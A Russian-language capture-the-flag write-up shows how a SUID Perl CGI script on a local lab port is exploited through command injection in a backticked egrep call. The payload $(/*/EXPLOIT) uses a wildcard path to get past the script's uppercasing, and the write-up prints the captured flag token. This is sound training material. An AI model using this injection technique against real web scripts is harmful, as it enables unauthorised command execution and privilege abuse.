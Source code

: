 ```
ls -l
```
> total 4\
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl

На файле стоит SUID, а значит он должен выполнить getflag

```
cat level12.pl
```
> \#!/usr/bin/env perl\
\# localhost:4646\
use CGI qw{param};\
print "Content-type: text/html\n\n";\
\
sub t {\
  $nn = $_[1];\
  $xx = $_[0];\
  $xx =~ tr/a-z/A-Z/;\
  $xx =~ s/\s.\*//;\
  @output = \`egrep "^$xx" /tmp/xd 2>&1\`;\
  foreach $line (@output) {\
      ($f, $s) = split(/:/, $line);\
      if($s =~ $nn) {\
          return 1;\
      }\
  }\
  return 0;\
}\
\
sub n {\
  if($\_[0] == 1) {\
      print("..");\
  } else {\
      print(".");\
  }\
}\
\
n(t(param("x"), param("y")));

Делаем вывод, что сервер слушает порт 4646
Нам необходимо подать код в строку @output = \`egrep "^$xx" /tmp/xd 2>&1\`;, в нее входит $xx
По коду скрипта понятно, что нужно выполнить запрос с параметрами
Вся хитрость заключается в операторах perl
$xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.\*//;

Все символы первого аргумента переводятся в верхний регистр, поэтому все что нам нужно сделать это
запустить скрипт, который сможет запустится после всех преобразований

```
echo "/bin/getflag > /tmp/flag" > /tmp/EXPLOIT;
chmod +x /tmp/EXPLOIT
```
```
curl localhost:4646?x='$(/*/EXPLOIT)'
```
```
cat /tmp/flag
```
> Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
